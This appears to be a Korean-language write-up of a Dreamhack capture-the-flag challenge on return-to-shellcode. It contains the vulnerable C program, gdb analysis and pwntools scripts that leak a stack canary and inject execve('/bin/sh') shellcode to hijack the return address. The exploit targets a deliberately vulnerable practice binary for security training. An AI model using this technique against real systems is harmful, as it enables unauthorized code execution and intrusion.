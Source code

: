 ## Return to Shellcode
---

```c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```

<br><br>

## Solution
---

gdb로 분석을 해보면 아래와 같은 코드가 있었다.

<br>

```
0x00000000000008d5 <+8>:     mov    rax,QWORD PTR fs:0x28
0x00000000000008de <+17>:    mov    QWORD PTR [rbp-0x8],rax
```

<br>

따라서 카나리 값은 ```rbp-0x8```에 위치한다.

그 다음 보면은 read로 읽을 때, 입력 값이 ```0x60```부터 받는다. 

buf와 rbp 거리도 96이라고 출력된다.

따라서 카나리 값을 읽기 위해서 입력값을 89만큼 입력해줘야 한다.

왜냐하면 카나리는 첫 바이트가 널바이트이므로 나머지 7바이트를 가져와야 한다.

<br>

```python
from pwn import *

p = process('./r2s')

context(arch='amd64', os='linux')

p.recvuntil(b'Input: ')

payload = b"A"*89

p.sendline(payload)

p.recvuntil(payload)

canary = u64(b"\0" + p.recv(7))
print("canary : ",hex(canary))
```

<br>

```canary :  0x325b0a27d8940a00``` 처럼 카나리 값이 나오게 된다.

이제 페이로드를 작성해줘야 한다.

코드를 보면 다시 buf를 gets 함수로 입력받으므로 buf에 쉘 코드를 넣고 buf의 나머지 부분을 채워준 다음 rbp-0x8에 카나리 값 8바이트를 채워주고 SFP는 아무 값으로 덮어쓰고 ret를 셸코드가 있는 buf 주소로 채워주면 된다. 

<br>

```python
from pwn import *

# p = process('./r2s')

p = remote('host3.dreamhack.games',18320)
context(arch='amd64', os='linux')

p.recvuntil(b'buf: ')
buf_addr = int(p.recv(14)[2:],16)
print("buf : ",buf_addr)

p.recvuntil(b'Input: ')
payload = b"A"*89

p.send(payload)
p.recvuntil(payload)

canary = u64(b"\0" + p.recv(7))
print("canary : ",hex(canary))

shellcode = b"\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"

# 또는 shellcode = asm(shellcraft.sh()) --> gets로 입력받아서 가능한 듯 

payload = shellcode + b"A"*(88-len(shellcode))+ p64(canary) + b"B"*0x8 + p64(buf_addr)

p.sendlineafter(b'Input: ',payload)
p.interactive()
```
